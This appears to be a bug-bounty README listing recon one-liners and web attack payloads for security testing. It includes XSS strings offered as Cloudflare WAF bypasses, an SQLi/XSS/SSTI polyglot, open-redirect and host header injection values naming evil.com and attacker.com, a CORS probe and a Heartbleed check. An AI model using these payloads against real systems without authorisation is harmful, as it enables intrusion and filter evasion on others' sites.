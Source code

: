 # BugBounty Resources

## Introduction


I always have to search for commands everytime I start to hunt for bugs.Therefore, I created this repository to list all useful commands of different tools. My intention is to make a repository containing all the important commands, technique and oneliners helpful for reconnaissance. 

If you think any important commands were not listed in this repository, feel free to contribute. 

## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
    for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'

## CORS Misconfiguration:
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

## Heartbleed vulnerability
    cat domains.txt
        example.com
        subdomain.example.com
    cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
  
 ## Finding subdomains and check for takeovers 
      subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/fingerprints.json -v 3 >> takeover ;
    
  ## Testing SQLi + XSS + SSTI with the same payload use
  	"><svg/onload=prompt(5);>{{7*7}}
  
  ##  XSS Cloudflare WAF bypass: 
  	<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
	<select><noembed></select><script x=’a@b’a>y=’a@b’//a@b%0a\u0061lert(1)</script x>
	<a+HREF=’%26%237javascrip%26%239t:alert%26lpar;document.domain)’>
	
  ## Valid URLs (Open Redirect Vulnerability)
	http(s)://evil.com
	http(s):\\evil.com
	//evil.com
	///evil.com
	/\/evil.com
	\/evil.com
	\\evil.com
	\/\evil.com
	/	/evil.com (That's a Tab Key / ASCII 0x09)
	\	\evil.com (That's a Tab Key / ASCII 0x09)
  ## Possible Host Header Injection
  	Host: emalple.com:1234"--><h1>TestScript<script>alert(1);
	X-Forwarded-Host: example.com/.example2.com
	Host: "><script>alert(1)</script>
	X-FORWARDED-FOR: example.com
	X-Forwarded-For: example.com
	Host: vulnerable-website.com:bad-stuff-here
	HTTP_FORWARDED: example.com
	HTTP_CLIENT_IP: 127.0.0.1
	HTTP_FORWARDED_FOR: exmaple.com
	HTTP_X_FORWARDED: example.com	
	HTTP_X_FORWARDED_FOR: example.com
	Front-End-Https: on
	Proxy-Connection: keep-alive
	X-Att-Deviceid: GT-P7320/P7320XXLPG
	X-CSRFToken: DECAFC0FFEEBAD
	X-Correlation-ID: f058ebd6-02f7-4d3f-942e-904344e8cde5
	X-Csrf-Token: DECAFC0FFEEBAD
	X-XSRF-TOKEN: DECAFC0FFEEBAD
	X-Do-Not-Track: 1
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-For: client1, proxy1, proxy2
	X-Forwarded-Proto: https
	X-HTTP-Method-Override: PUT
	X-ProxyUser-Ip: 127.0.0.1
	X-Request-ID: f058ebd6-02f7-4d3f-942e-904344e8cde5
	X-Requested-With: XMLHttpRequest
	X-UIDH: 31337DEADBEEFCAFE
	X-Wap-Profile: http://wap.samsungmobile.com/uaprof/SGH-I777.xml
	X-XSRF-TOKEN: DECAFC0FFEEBAD
	Client-IP: 127.0.0.1
	True-Client-IP: 127.0.0.1
	Cluster-Client-IP: 127.0.0.
	
	
	
	Note: You can input multiple host header to test.
		Example: Host: example.com
		         Host: attacker.com
		Example:  Host: example.com {Remember space before Host! Sometimes this can bypass validation}
			 Host: attacker.com
	Try to input absolute url to the URL path.
		Example: Get https://example.com/index.html?<original path>
## Command Injection reserve commands
## node js
	spawn
	forc
	exec
	eval

### php
	system
	shell_exec
	exec
	proc_open
	popen
	eval
	passthru

### pyhton
	exec
	eval
	os.system
	os.popen
	subprocess.*
	pickle
	yaml.load

## C#
	ProcessStartinfo
	ParameterizedThreadStart
	Process.Start
	Exec

#### Refrences:
  - https://github.com/dwisiswant0/awesome-oneliner-bugbounty
  - https://github.com/XalfiE/Bug-Bounty-Oneliners
  - https://bbinfosec.medium.com/collection-of-bug-bounty-tip-will-be-updated-daily-605911cfa248
  

